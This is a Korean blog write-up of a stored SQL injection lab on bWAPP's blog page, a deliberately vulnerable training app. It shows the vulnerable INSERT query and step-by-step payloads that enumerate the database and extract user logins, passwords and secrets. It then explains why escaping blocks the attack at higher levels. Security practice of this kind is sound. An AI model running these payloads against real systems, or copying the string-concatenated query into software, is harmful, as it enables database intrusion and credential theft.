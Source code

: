 ```yaml
---
layout: single
title: (bWAPP)SQL Injection - Stored (Blog)
categories: Web-vuln
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image.png)
- 사용자의 입력값이 DB 에 저장된 후 불러와 다시금 출력하는 듯 하다.

![그림 1-2](/assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image2.png)
- 사용자의 입력값이 Entry에 입력되는 걸 확인 할 수 있다.
- 이럴 경우 보통 XSS 공격만 테스트 하고 넘어가는 경우가 많다.
- 하지만 DB에 저장된 값을 SQL 구문을 통해 불러오거나 저장하는 경우 SQL Injection도 충분히 일어날 수 있다.

![그림 1-3](/assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image3.png)
- ‘(싱글쿼터) 입력시 DBMS Error가 발생하는 것을 볼 수 있다.

```sql
$sql = "INSERT INTO blog (date, entry, owner) VALUES (now(),'" . $entry . "','" . $owner . "')";
```

> INSERT 절을 통해 입력 되는 SQL 구문은 위와 같다.

```sql
test',select(select 1))--
```

![그림 1-4](/assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image4.png)
- select 1 을 사용하여 테스트 해본 결과 1이 정상적으로 출력되고 있다.

```sql
test',(select schema_name from information_schema.schemata limit 1,1))--
```

![그림 1-5](/assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image5.png)
- Union Based를 사용하여 bWAPP 데이터베이스를 확인했다. 이와 같이 INSERT 절에 중첩SELECT절을 사용하여 공격을 진행할 수 있다.

```sql
test',(select table_name from information_schema.tables where table_schema='bWAPP' limit 3,1))--
```

![그림 1-6](/assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image6.png)
- users 라는 테이블도 확인했다.

```sql
test',(select column_name from information_schema.columns where table_schema='bWAPP' and table_name='users' limit 1,1))--
```

![그림 1-7](assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image7.png)
- 각각의 컬럼명도 획득할 수 있다.

```sql
test',(select concat(login,0x3a,id,0x3a,password,0x3a,secret) from bWAPP.users limit 1,1))--
```

![그림 1-8](assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image8.png)
- 데이터 추출에 성공했다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.
